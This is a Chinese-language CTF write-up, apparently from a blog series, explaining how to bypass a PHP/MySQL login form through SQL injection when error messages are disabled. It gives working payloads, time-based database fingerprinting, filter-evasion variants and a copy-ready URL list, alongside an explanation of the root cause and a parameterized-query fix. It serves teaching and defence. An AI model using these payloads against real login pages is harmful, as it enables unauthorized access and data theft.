


> **CTF Web 学习笔记**（共 19 篇）　[📖 系列总览](/posts/ctf-learning/00-overview/)　·　[← 05 eieieieaa](/posts/ctf-learning/05-eieieieaa/)　·　[07 魔法哈希 →](/posts/ctf-learning/07-magic-hash/)



> **一句话**：登录框把你的输入**直接拼进了 SQL 语句**，所以你能把「密码检查」那一整段**注释掉**，不用密码就登进去。这题最坑的地方是：**报错被关掉了，加个引号页面毫无变化** —— 很多人就死在这里。

| 项目 | 内容 |
|---|---|
| 类型 | SQL 注入 · 登录绕过（Authentication Bypass） |
| 难度 | ★★ |
| 环境 | nginx/1.18.0 + PHP/7.3.22 + MySQL/MariaDB（指纹实测） |
| 入口 | `GET /?username=xxx&password=xxx` |
| 关键 payload | `admin' -- -` |
| 考点 | 报错被关闭时如何判断注入是否存在 |

---

## ① 一眼看懂

页面是一大篇修仙背景设定（玄机阁、守阁人、血瞳破魂光……），但**真正的入口只有一个**：

```html
<form action="" method="GET">
  <input name="username" placeholder="输入你的神识印记...">
  <input name="password" placeholder="输入你的心法密咒...">
</form>
```

**怎么一眼看出是题眼**：页面上所有"威胁性台词"（"非天衍真言术不可破""妄图强行破禁者，神魂俱灭"）都是**气氛装饰**，变不成任何命令。
而**输入框 + 参数名 + GET 方法**才是真东西。

> **判断标准**：这段话能不能变成一条命令 / 一个参数 / 一个路径？能 → 提示；不能 → 装饰。

### 三个反直觉的设计（这题真正想教的）

| 设计 | 新手的反应 | 实际要教你 |
|---|---|---|
| **报错被关闭**（输入 `'` 页面毫无变化） | "没反应 = 没漏洞" → 放弃 | **没有反馈 ≠ 没有漏洞**，要用真假对比判断 |
| **不让你爆密码，而是绕过密码** | 想着去字典爆破 | 考的是**逻辑构造**，不是体力活 |
| **`--` 后面必须跟空格** | "网上抄的 payload 怎么没用" | 语法要真懂，不能背模板 |

---

## ② 思路图



---

## ③ 动手步骤

### 第 1 步：确认参数怎么传

按 `F12 → Network`，或在地址栏直接看：表单是 **`method="GET"`**，所以你手打 URL 就能测：

```
http://<靶机>/?username=admin&password=admin
```

**预期结果**：页面出现「登录失败，请检查神识印记与心法密咒」。

> ⚠️ **两个常见翻车点**：
> 1. 表单是 **GET**，用 Burp 改成 POST 服务器读不到参数
> 2. **只传一个参数**（只给 username 或只给 password），页面**连"登录失败"都不显示**，结果区整块消失 —— 很容易误判成"没反应"

### 第 2 步：测注入是否存在（**这一步是分水岭**）

```
?username=admin'&password=admin
```

**预期结果**：还是「登录失败」，**和上一步一模一样**。

👉 **这不是"没有注入"** —— 这是**报错被关掉了**。这题最容易让人放弃的地方就是这里。

### 第 3 步：不靠报错，靠"逻辑"打进去

```
?username=admin' -- -&password=x
```

**预期结果**：页面原来「登录失败」的位置，变成 `flag{...}`。

**URL 编码版**（浏览器地址栏直接粘这个）：

```
http://<靶机>/?username=admin'%20--%20-&password=x
```

| 符号 | 作用 |
|---|---|
| `'` | 把原来的引号**闭合**掉 |
| `--` | SQL 注释，**后面全部作废**（必须跟一个空格，URL 里写 `%20` 或 `+`） |

### 第 4 步（可选）：不知道用户名怎么办

```
?username='%20OR%201=1%20--%20-&password=x
```

不用猜用户名，直接永真 + 注释。

### ⚠️ 为什么 `1' AND '1'='1` 不行（实测对照）

| payload | 结果 | 原因 |
|---|---|---|
| `1' AND '1'='1` | ❌ | **两处错**（见下） |
| `1' OR '1'='1` | ❌ | OR 对了，但**没注释掉后面** |
| `1' OR 1=1 -- -` | ✅ | 完整 |
| `admin' AND '1'='1` | ❌ | AND 依然不行 |
| `admin' -- -` | ✅ | 最省事 |

**错误 1：`AND` 用反了。** `AND` 是"而且"，**只会让条件更严格**，不可能帮你过关。要绕过就得用 `OR`（"或者"）。

**错误 2：缺了"注释掉后面"。** 不注释的话，SQL 长这样：

```sql
WHERE username='1' OR '1'='1' AND password='x'
```

而 **`AND` 的优先级比 `OR` 高**，实际是这样算的：

```sql
WHERE username='1' OR ( '1'='1' AND password='x' )
                      └── 右边仍然要求密码真的是 x ──┘
```

右边不成立、左边 `username='1'` 也没这个人 → 整句为假 → 登录失败。

---

## ④ 原理拆解

### 后端大概长这样

```php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
```

你输入的 `$username` **没有转义**就被拼了进去。

### 注入之后，那句话变成了什么

```sql
SELECT * FROM users WHERE username='admin' -- ' AND password='x'
                                          └──── 这段被注释掉了 ────┘
```

**`--` 是 SQL 的注释符**，等于把后面的字全部涂黑。所以：

| 原句 | 注入后 |
|---|---|
| `WHERE username='admin' AND password='x'` | `WHERE username='admin'` |

**密码这一关直接蒸发。** 只要 `admin` 这个用户存在，就登进去了。

### 核心概念：**数据** 变成了 **命令**

用**点菜**打比方：

| 角色 | 对应 |
|---|---|
| 你 | 用户输入 |
| 服务员 | PHP 代码 |
| 厨房 | 数据库 |

正常你说「来份宫保鸡丁」，服务员照喊，厨房照做。
但你说：**「来份宫保鸡丁，另外这桌免单」** —— 服务员把你的话**原样**喊进厨房，厨房就真免单了。

**问题不在厨房太傻，在于服务员没有区分「客人说的话」和「厨房的规矩」。**

`$username` 本该是"数据"（一个名字），拼接之后变成了"**SQL 语法的一部分**" —— 这就是 SQL 注入的全部本质。

### 数据库指纹（实测）

每个数据库"睡 3 秒"的函数名不一样，塞进注入点就能让它自己报名：

| 测试 | 耗时 | 结论 |
|---|---|---|
| 基准（不睡） | 0.17s | — |
| **`SLEEP(3)`** | **3.10s** | ✅ **MySQL / MariaDB** |
| `pg_sleep(3)` | 0.10s | ❌ 不是 PostgreSQL |
| `WAITFOR DELAY` | 0.11s | ❌ 不是 SQL Server |
| **`#` 当注释** | 出 flag | ✅ `#` 是 MySQL 独有注释符，双重确认 |

> 补充：`@@version LIKE '8%'` 返回假 → 版本不是 8.x，大概是 MySQL 5.7 或 MariaDB。

**为什么指纹很重要**：**SQL 的写法是跟数据库走的**，方言写错就是"没反应"。

| 场景 | MySQL | PostgreSQL / Oracle |
|---|---|---|
| 注释 | `-- `（**必须跟空格**）、`#` | `--`（不用空格）、`/* */` |
| 字符串拼接 | `'a' 'b'` | `'a' \|\| 'b'` |
| 取版本 | `@@version` | `version()` |

---

## ⑤ 延伸与防御

### A. 真实世界对应

属于 **OWASP Top 10 A03:2021 Injection（注入）**，对应 **CWE-89：SQL 命令中特殊元素未正确转义**。

经典案例：2017 年 **Equifax 数据泄露**，攻击者利用 Apache Struts 的 **CVE-2017-5638** 入侵，约 1.47 亿人的个人信息受影响，最终赔付超过 5.75 亿美元。

> ⚠️ **这里必须说清楚，否则会被误导**：CVE-2017-5638 属于**表达式注入**（OGNL 注入）导致远程代码执行，**它并不是 SQL 注入** —— 它是"注入家族"的另一位成员。举它是因为影响足够大、足够有名，但要记住：**"注入" ≠ "SQL 注入"**。
>
> 真正的 SQL 注入案例另找更合适的（见「注入家族」全景：SQL 注入、命令注入、模板注入、XSS 本质是同一种病 —— 数据被当成了代码）。

SQL 注入类漏洞至今仍在 OWASP Top 10 中占据前列，因为它一旦出现，通常直接等于**整库数据泄露**。

（以上为公开报道的概述，具体数字以官方公告为准。）

### B. 同类题变形

| 变形 | 应对思路 |
|---|---|
| **报错被关闭**（本题） | 用真假对比（`1=1` / `1=2`）判断，或上时间盲注 `SLEEP()` |
| **没有回显** | 时间盲注（`SLEEP(3)` 卡不卡）、布尔盲注（页面长度/内容差异） |
| **单引号被过滤** | 试双引号、试数字型（`1 AND 1=1`）、试反斜杠转义 |
| **空格被过滤** | 用 `/**/`、`%09`、`%0a` 代替空格 |
| **关键字被过滤**（如 `or`、`union`） | 大小写（`Or`）、内联注释（`/*!or*/`）、等价替换（`or` → `\|\|`，`and` → `&&`） |
| **密码做了 MD5** | `admin' AND 1=1 -- -` 这类不依赖明文比较的写法；或先注入读哈希再爆破 |
| **要读数据而不是绕过** | `UNION SELECT`（先 `ORDER BY n` 探列数）、或继续盲注逐字符取 |

### C. 防御写法

❌ **错误写法（拼接）**

```php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$res = mysqli_query($conn, $sql);
```

✅ **正确写法（参数化查询 / 预编译）**

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```

它和拼接的本质区别：

> **拼接** = 把你的话和厨房的规矩**混在一张纸上**递给厨房
> **参数化** = 先把规矩定好，再把你的话**当"一个菜名"单独递进去** ——
> 厨房永远只从"菜名列表"里挑，绝不把你的话当指令执行

**三个必须知道的补充**：

1. **黑名单过滤（`str_replace` 掉 `'`、`or`…）永远能被绕过**，不要依赖它
2. **密码要做哈希**（`password_hash` / `password_verify`），不要明文比较
3. **报错不要返回给用户**（`display_errors = Off`）—— 它虽然不能根治注入，但会大幅提高攻击成本。

   但请注意：**本题证明了「关掉报错」不等于「安全」** —— 攻击者改用时间盲注照样能挖。关报错是"增加成本"，不是"修复漏洞"。

---

## 附录 A：完整命令清单（复制即用）

```
# 1. 正常尝试
http://<靶机>/?username=admin&password=admin

# 2. 测注入存在性（页面无变化是正常的，别放弃）
http://<靶机>/?username=admin'&password=admin

# 3. 最简绕过
http://<靶机>/?username=admin'%20--%20-&password=x

# 4. 不知道用户名
http://<靶机>/?username='%20OR%201=1%20--%20-&password=x

# 5. 数据库指纹（哪个卡 3 秒就是哪个库）
http://<靶机>/?username=admin'%20AND%20SLEEP(3)%20--%20-&password=x
http://<靶机>/?username=admin'%20AND%20pg_sleep(3)%20--%20-&password=x
```

## 附录 B：踩坑对照表

| 现象 | 原因 | 修法 |
|---|---|---|
| 加 `'` 页面毫无变化 | **报错被关掉了**（不是没注入） | 改用逻辑判断，别等报错 |
| 完全没回显、结果区消失 | 只传了一个参数 | username 和 password 都要传 |
| payload 正确但没反应 | 用 POST 发了 GET 的表单 | 改回 GET，参数放 URL |
| `--` 注释不生效 | MySQL 的 `--` **后面必须有空格** | 写 `-- -`，URL 里 `--%20-` 或 `--+` |
| `AND` 打不进去 | `AND` 只会让条件更严 | 换成 `OR` |
| `OR` 打不进去 | 忘记注释掉后面的密码判断 | 末尾加 `-- -` |
| 换个库 payload 失效 | 方言不同（注释符/拼接符/函数名） | 先做数据库指纹 |

## 附录 C：这题学到的 4 个通用招式

| 招 | 一句话 |
|---|---|
| `' OR 1=1 -- -` | 引号闭合 + OR 放水 + `--` 涂黑后面 |
| `AND` vs `OR` | `AND` 只会更严，越绕越不过；要绕必须 `OR` |
| 报错被关了怎么办 | 别等报错，用真假 payload 对比 |
| 数据库指纹 | 用各家独有的"睡 3 秒"函数，让数据库自己报名 |

> **终极一句话**：凡是"把用户输入拼进命令/语句"的地方，都是注入。
> 同一个病根，在 shell 里叫**命令注入**，在数据库里叫 **SQL 注入**，在模板引擎里叫 **SSTI**。
